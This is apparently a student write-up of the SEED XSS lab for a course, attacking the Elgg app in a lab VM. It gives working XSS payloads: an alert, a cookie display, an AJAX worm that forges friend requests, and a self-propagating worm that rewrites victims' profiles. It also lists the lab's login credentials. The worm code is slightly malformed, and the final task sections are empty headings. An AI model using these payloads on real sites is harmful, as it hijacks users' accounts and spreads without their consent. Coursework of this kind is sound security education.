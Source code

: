 # CSUS CSC154: XSS Lab  

## Goal  
To fully demonstrate what attackers can do by exploiting XSS vulnerabilities.


## Lab Environment  
In this lab, we need three things, which are already installed in the provided `SEEDUbuntu12.04` VM image: (1) the Firefox web browser, (2) the Apache web server, and (3) the Elgg web application. For the browser, we need to use the LiveHTTPHeaders extension for Firefox to inspect the HTTP requests and responses. The pre-built Ubuntu VM image provided to you has already installed the Firefox web browser with the required extensions.  

The user accounts for Elgg are found below.  

| User          | UserName      | Password     |
| ------------- |:-------------:| ------------:|
| Admin         | admin         | seedelgg     |
| Alice         | alice         | seedalice    |
| Boby          | boby          | seedboby     |
| Charlie       | charlie       | seedcharlie  |
| Samy          | samy          | seedsamy     |



## Lab Tasks  

### Posting a Malicious Message to Display an Alert Window  
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another
user views our profile, the JavaScript program will be executed and an alert window will be displayed. The
following JavaScript program will display an alert window:  

```javascript
<script>alert('xss');</script>
```

To accomplish this, we simply login as Samy, and navigate to edit our profile. As can be seen in Figure 1 below, we've placed our JavaScript payload in the "Brief Descriptoin" portion of Samy's profile.  
![1_1_samy](./writeup/images/1_1_samy.png)  
**Figure 1:** JavaScript alert window payload to demonstrate XSS.  

![1_2_samy](./writeup/images/1_2_samy.png)  
**Figure 2:** JavaScript alert window fires when Samy's profile is visited.  


### Posting a Malicious Message to Display Cookies
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another user views our profile, the user's cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task, more specifically `document.cookie` as such: 
```javascript
<script>alert(document.cookie);</script>
```

To accomplish this, we repeat the previous task, but replace the `'xss'` string, with `document.cookie`.  
![2_1_samy](./writeup/images/2_1_samy.png)  
**Figure 3:** JavaScript alert window payload to display user's cookie for the site.  

![2_2_samy](./writeup/images/2_2_samy.png)  
**Figure 4:** JavaScript alert window displays our Elgg cookie when visiting Samy's profile.




### Writing an XSS Worm  
In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). First, we will write an XSS worm that does not self-propagate; in the next task, we will make it self-propagating. In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim's browser, without the intervention of the attacker. The objective of the attack is to modify the victim's profile and add Samy as a friend to the victim. 

We can view the requests made to the server when adding a friend, by using the Live HTTP Headers plugin. In Figure 5 below, we're viewing the request made when Boby adds Alice as a friend.  
![boby_added_alice](./writeup/images/boby_added_alice.png)  
**Figure 5:** HTTP Headers for friend request, Boby to Alice.  


We can also see by hovering over the link to to add Samy as a friend, the url is `http://www.xsslabelgg.com/action/friends/add?friend=42&__elgg_ts=1575329197&__elgg_token=ac28852afbfcd82a9fd72aa9923110f3`.

Using this information we can construct an AJAX request to add Samy as a friend as soon as you visit his profile. To create our worm this we've developed the following JavaScript code, which we embed in the About Me section of Samy's profile.

```javascript
<script>

var Ajax=null;
var ts = elgg.security.token.__elgg_ts;
var token = elgg.security.token.__elgg_token;

// 42 is Samy's GUID
var content = "friend=42&__elgg_ts="+ts+"&__elgg_token="+token;

Ajax=new XMLHttpRequest();
Ajax.open("GET","http://www.xsslabelgg.com/action/friends/add?"+content,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send(null);

</script>
```

![developing_worm](./writeup/images/developing_worm.png)  
**Figure 6:** Developing worm payload in FireBug.  

![samy_worm_embed](./writeup/images/samy_worm_embed.png)  
**Figure 7:** JavaScript payload to add Samy as a friend when is profile is visited (Worm). 

Now after we visit Samy's profile as Alice, we see that Alice has added him as a friend.  

![alice_samy](./writeup/images/alice_samy.png)  
**Figure 8:** Alice added Samy as friend by visiting his page with XSS payload.  


### Writing a Self-Propagating XSS Worm  
In order to construct a self propogating worm, we need the JavaScript exploit we developed above to another user's profile. When a user visits Samy's page, we'll edit their profile with the following snippet below. This will make an AJAX POST request to place our malicious JavaScript inside their About Me section. 

```html
<div id='i_love_sammy'>

</div>
```


```javascript
<script>
var Ajax=null;
var guid = elgg.session.user['guid'];
var name = elgg.session.user['name'];
var ts = elgg.security.token.__elgg_ts;
var token = elgg.security.token.__elgg_token;

Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

// Get previous payload code from element id
var getInf3c73d = document.getElementById('i_love_sammy').innerHTML;
 

var content="__elgg_ts="+ts+"&__elgg_token="+token+"&description="+getInf3c73d+"&name="+name+"&accesslevel[description=2&guid="+guid;

Ajax.send(content);
</script>
```



### Task 6: Writing a Self-Propagating XSS Worm  

### Task 7: Countermeasures  
